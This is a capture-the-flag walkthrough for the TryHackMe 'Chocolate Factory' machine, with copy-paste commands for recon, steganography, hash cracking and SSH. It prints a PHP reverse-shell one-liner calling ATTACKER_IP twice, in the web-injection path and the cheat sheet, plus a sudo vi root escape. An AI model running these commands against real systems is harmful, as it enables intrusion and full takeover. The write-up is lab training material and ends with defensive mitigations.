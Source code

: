 # Chocolate Factory — Consolidated Walkthrough

> **Difficulty:** Easy &nbsp;|&nbsp; Linux / Web / Privilege Escalation  
> **Goal:** Capture the `user` and `root` flags on the TryHackMe *Chocolate Factory* machine.

---

> **Summary:**  
> Enumerate services → discover FTP image (steganography) or web injection → recover credentials → obtain shell as `www-data` or SSH as `charlie` → escalate to `root` via misconfigured `sudo` (e.g., `vi`). This guide merges multiple community writeups into a single, streamlined path with copy-paste commands.  
> [Hacking Writeups][1]

---

## Table of Contents

1. [Overview](#overview)
2. [Tools & Prereqs](#tools--prereqs)
3. [High-level Attack Flow](#high-level-attack-flow)
4. [Step-by-step Walkthrough](#step-by-step-walkthrough)
    - [Recon](#recon)
    - [Path A — Web Shell via `home.php`](#path-a---web-shell-via-homephp)
    - [Path B — Stego via FTP Image](#path-b---stego-via-ftp-image)
    - [Privilege Escalation (vi → root)](#privilege-escalation-vi--root)
5. [Cheat Sheet — Commands](#cheat-sheet---commands)
6. [Defensive Notes & Mitigations](#defensive-notes--mitigations)
7. [References](#references)

---

## Overview

Chocolate Factory is a beginner-friendly box focusing on OSINT/enumeration, web exploitation, steganography, and privilege escalation via misconfigured `sudo`. Two main routes:  
- **A:** Abuse input on `home.php` for a PHP reverse shell (`www-data`).  
- **B:** Retrieve FTP image, extract embedded data, crack password, web login, and shell.  
Both paths lead to `charlie`’s credentials and root escalation.  
[Hacking Writeups][1]

---

## Tools & Prereqs

- **Attacker VM:** Kali / Parrot / any Linux
- **Tools:**  
  `nmap`, `gobuster`, `ftp`, `steghide`, `strings`, `base64`, `hashcat`/`john`, `nc`, `ssh`
- **Wordlists:**  
  `rockyou.txt` (for password cracking)

---

## High-level Attack Flow

1. **Enumerate:** `nmap` for open ports (FTP, HTTP, SSH)
2. **Web Recon:** `gobuster` for hidden files (`home.php`)
3. **Exploit:** Command injection or web login (after password crack) → reverse shell
4. **Loot:** Extract SSH key/password, SSH as `charlie`
5. **Escalate:** `sudo -l` → abuse `vi` for root shell

---

## Step-by-step Walkthrough

### Recon

```bash
nmap -sC -sV -p- -oA chocolate_nmap <TARGET_IP>
```
- Look for:  
  - `21/tcp` — FTP (anonymous access)  
  - `80/tcp` — Web server  
  - `22/tcp` — SSH

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 40 -o gobuster.log
```
- Commonly reveals `home.php` or similar.

---

### Path A — Web Shell via `home.php`

1. **Browse:** `http://<TARGET_IP>/home.php`
2. **Inject:** If input is vulnerable, spawn PHP reverse shell:

    ```bash
    # Attacker: start listener
    nc -lvnp 4444

    # Web input (as command)
    php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

3. **Shell:** You get `www-data`. Enumerate:

    ```sh
    id
    ls -la
    cat /etc/passwd | grep charlie
    ```

4. **Loot:** Find `key_rev_key` binary, extract key:

    ```bash
    strings key_rev_key | less
    # or run interactively
    ./key_rev_key
    ```

5. **SSH:** Use extracted key/password:

    ```bash
    chmod 600 teleport
    ssh charlie@<TARGET_IP> -i teleport
    ```

---

### Path B — Stego via FTP Image

1. **FTP:** Connect and download image:

    ```bash
    ftp <TARGET_IP>
    # login: anonymous
    get gum_room.jpg
    ```

2. **Stego:** Extract embedded file:

    ```bash
    steghide extract -sf gum_room.jpg
    # (press Enter if passphrase is blank)
    ```

3. **Decode:** Base64 decode extracted file:

    ```bash
    cat b64.txt | base64 -d > hash.txt
    ```

4. **Crack:** Use `hashcat` or `john`:

    ```bash
    hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
    # OR
    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    ```

5. **Web Login:** Use cracked credentials, find shell or SSH key, proceed as above.

---

### Privilege Escalation (vi → root)

1. **Check sudo:**

    ```bash
    sudo -l
    ```

2. **Exploit:** If `vi` allowed:

    ```bash
    sudo vi -c ':!/bin/sh' /dev/null
    # or
    sudo vi -c ':set shell=/bin/sh' -c ':shell' /dev/null
    ```

3. **Root:** Read flag:

    ```bash
    whoami
    cat /root/root.txt
    ```

---

## Cheat Sheet — Commands

```bash
# Recon
nmap -sC -sV -p- -oA chocolate_nmap <TARGET_IP>
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 40 -o gobuster.log

# FTP
ftp <TARGET_IP>
get gum_room.jpg

# Stego
steghide extract -sf gum_room.jpg
cat b64.txt | base64 -d > hash.txt

# Crack hash
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt

# Web shell
nc -lvnp 4444
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# SSH key
strings key_rev_key | less
chmod 600 teleport
ssh charlie@<TARGET_IP> -i teleport

# Privilege escalation
sudo -l
sudo vi -c ':!/bin/sh' /dev/null
cat /root/root.txt
```

---

## Defensive Notes & Mitigations

- **Disable anonymous FTP** or restrict content.
- **Sanitize web inputs**; never execute user-supplied data.
- **Limit sudo privileges:** Avoid `NOPASSWD` for editors or command-line tools.
- **Monitor for stego/hidden files** on public services.
- **Alerting:** Watch for unusual web input, sudo usage, or new SUID files.

---


